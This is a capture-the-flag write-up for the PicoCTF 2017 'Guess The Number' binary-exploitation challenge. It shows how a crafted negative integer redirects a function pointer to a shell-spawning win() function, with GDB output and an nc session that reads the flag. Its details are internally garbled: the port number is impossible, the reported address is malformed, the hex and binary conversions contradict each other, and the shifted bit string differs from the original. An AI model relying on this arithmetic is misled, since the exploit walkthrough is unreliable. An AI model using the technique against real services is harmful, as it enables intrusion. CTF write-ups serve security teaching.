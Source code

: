 # PicoCTF_2017: Guess The Number

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:1353257641.

**Hint:**

>What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...

## Write-up
This challenge tests your knowledge on two's complement, bit-shifting and GDB magick. First, let's look at the source code. We really want to `win()`.

    void win(void) {
        printf("Congratulations! Have a shell:\n");
        system("/bin/sh -i");
    }

GDB time!

    $ gdb guess_num
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from guess_num...(no debugging symbols found)...done.
    (gdb) info address win
    Symbol "win" is at 0x4006cd804852b in a file compiled without debugging.

Converting `0x4006cd804852b` to hexadecimal gives us `4196045134513963` or `1000000001001000011010100101011`. We need to be able to call upon `((void (*)(void))val)();` to `win()` it, so now we have to figure out how to make `val` point to `win()`.

    val = strtol(buf, NULL, 10);
    printf("You entered %d. Let's see if it was right...\n", val);
    val >>= 4;

We see that `val` gets checked for overflow, and then bit shifted right 4 places. So let's do the same for our pointer, by shifting left 4 places.

    1000000001001000010100101011
    10000000010010000101001010110000 <- add 4 0s

However, now the binary is too large to enter into the system! But wait! We have two's complement and negative numbers to help us!

    10000000010010000101001010110000
    -2142743888

    $ nc shell2017.picoctf.com 1353257641
    Welcome to the number guessing game!
    I'm thinking of a number. Can you guess it?
    Guess right and you get a shell!
    Enter your number: -2142743888
    You entered -2142743888. Let's see if it was right...
    Congratulations! Have a shell:
    /bin/sh: 0: can't access tty; job control turned off
    $ ls
    flag.txt
    guess_num
    xinetd_wrapper.sh
    $ cat flag.txt
    eb485c1755fc97d4a3f0c3cc2bda0bde530c136f62eff8a8530addb44f8

Therefore, the flag is `eb485c1755fc97d4a3f0c3cc2bda0bde530c136f62eff8a8530addb44f8`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTc5NjQ4NTQ4OCwtMjE3NjU0NzM4LDY2MT
YyMjk4MF19
-->